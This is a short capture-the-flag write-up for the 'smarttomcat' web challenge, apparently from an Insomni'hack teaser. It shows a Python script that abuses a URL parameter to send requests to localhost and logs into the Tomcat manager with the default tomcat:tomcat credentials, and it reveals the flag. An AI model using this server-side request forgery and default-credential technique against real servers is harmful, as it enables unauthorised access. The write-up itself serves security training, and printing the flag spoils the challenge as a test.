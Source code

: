 ```yaml
---
layout: post
title: INST17 - smarttomcat - Web - 50 pts
---
```


# created by xel/grimmlin

>Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?

![website](/public/INST17_website.png "website")

We can submit coordinates to find the cat.
If we check the source code we can see that a **POST** is done to **index.php** with **localhost:8080** and a **jsp** file as **u-parameter**.

![source](/public/INST17_source.png "source")


Together with the task title we assume it's a **tomcat**.
Tomcat's got that [**manager**](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html). Let's try **standard credentials**:


```
#!/usr/bin/env python

import requests
import re

TARGET_URL = 'http://smarttomcat.teaser.insomnihack.ch/'
TOMCAT_USER = 'tomcat'
TOMCAT_PASS = 'tomcat'
PAYLOAD = "http://"+TOMCAT_USER+":"+TOMCAT_PASS+"@localhost:8080/manager/html"

answer = requests.post(TARGET_URL, data={'u':PAYLOAD})
flag = re.findall(r"(INS\{...+\})", answer.text)

print(flag[0])
```
**INS{th1s_is_re4l_w0rld_pent3st}**



